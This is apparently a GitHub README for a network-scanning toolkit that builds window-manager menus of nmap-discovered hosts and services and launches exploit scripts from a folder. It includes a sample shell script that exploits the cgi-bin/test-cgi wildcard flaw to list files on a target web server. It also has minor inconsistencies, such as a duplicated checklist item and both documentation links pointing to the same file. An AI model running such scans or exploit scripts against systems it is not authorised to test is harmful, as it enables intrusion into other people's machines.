Svirneblin Network Monitoring and Local Vulnerability Evaluation Toolkit
========================================================================

This is a tool for enumerating the hosts on a local network and for evaluating
the security of those hosts in a quick, automatic way. It just generates tiers
of menus which enumerate local hosts and the services running on those hosts.
Optionally, if it finds scripts which exploit potential vulnerabilities in those
services in a directory(Either /usr/bin/exploits or $HOME/.bin/exploits) it will
generate a menu for launching those scripts in a terminal under the enumerated
services in the menu. It's not compatible with any existing vulnerability
framework, but it shouldn't be particularly difficult to wrap your applications
up in the exploits/ folder. An example script exploiting the shellshock
vulnerability will be included as an example shortly.  

**Don't use this version unless you are interested in testing the features of**
**the script.** It's not capable of updating the menu asynchronously yet which 
means that it will take a long time for your window manager to start up, and
you'll have to restart the window manager to refresh the menu.  

        [X] Menu Generation
        [X] Service Scanning
        [X] Potential Exploit Scanning
        [x] Example Exploit(Untested)
        [_] Asynchronous Updates
        [_] Exploit Library
        [_] Custom Port Ranges
        [_] Service Scanning

**For install documentation, see** [INSTALL](https://github.com/cmotc/svirfneblin-netmonitor-widget/blob/master/INSTALL.md)  

**For documentation on extending with your own scripts, see** [SCRIPTING](https://github.com/cmotc/svirfneblin-netmonitor-widget/blob/master/INSTALL.md). This will be changing alot, fairly soon.  

How it works:
-------------
It uses 3 wrapper scripts to turn data from the shell into lists that can be
used to create hierarchical awesome menus and launchers. The code's not
particularly concise yet, but it's pretty well labeled except in that one area.  

###Refreshing the Menu
I wouldn't recommend setting a timer to automatically refresh the menu at an
interval, as this version is not yet capable of doing so asynchronously and it
will stall while the window manager while it's scanning your network.  

###Menu Level 1: Computers Nearby
This list is formulated by determining which networks you are connected to and
guessing which IP ranges are being assigned by those networks, then scanning
those ranges with nmap and organizing that data into the first level menu. This
should be enough to discover all hosts on most SOHO networks and display them
in the menu.  

####Example Gateway in Menu Level 1 with Host Name:

        wrt54g (192.168.1.1) Host is up (0.0018s)

####Example Host with Hostname

        MemA 192.168.1.4 Host is up (0.0010s)

####Example Host with IP address

        for 192.168.1.105 Host is up (0.0012s)

I might add the capability to scan custom IP ranges soon too but for now it only
scans the local network automatically.  

###Menu Level 2: Service Scanning
This list is formulated by scanning the running services on the discovered hosts
with nmap and turning the service data into an table which can be used as an
awesome widget, which is then made into a submenu under the corresponding host's
entry in the menu.

####Example DNS Service

        53/tcp open domain

####Example HTTP Service

        80/tcp open domain

There could be more information about services, otherwise this one is unlikely
to change much.

###Menu Level 3a: Potential Attacks
This list is formulated from scripts in 2 folders, one at /usr/bin/exploits and
$HOME/.bin/exploits. The script must have the name of the service it intends to
target in it's own name(like http-cgi-testcgils.sh)

####Example exploit script: Exploiting cgi-bin/test-cgi* to list files

        #! /bin/sh
        export EXPLOIT_NAME="CGIlscommand"
        export EXPLOIT_FIRE="cgils_run"
        cgils_run(){
            alias wget=\wget --user-agent=Mozilla
            EXPLOIT_TMP=$HOME/.tmp/svirfneblin-netmonitor-exploit/$EXPLOIT_NAME
            mkdir -p $EXPLOIT_TMP
            cd $EXPLOIT_TMP
            #attempt to find cgi scripts by exploiting cgi-bin/test-cgi*
            mkdir -p "$EXPLOIT_TMP/$1"
            cd "$1"
            CGI_LISTING=$(curl "http://$1/cgi-bin/test-cgi*")
            echo $CGI_LISTING
        }

####The script above will become visible in the menu under any discovered HTTP services

        Host Name/IP-+
                     |
                     +-Service Name-+
                                    |
                                    +-<< CGIlscommand >>



###Menu Level 3b: Service Fingerprinting
Not implemented yet, but this will give you more information about the services
remote hosts are running and may be promoted between service name and attack
menu to help refine the selection process.
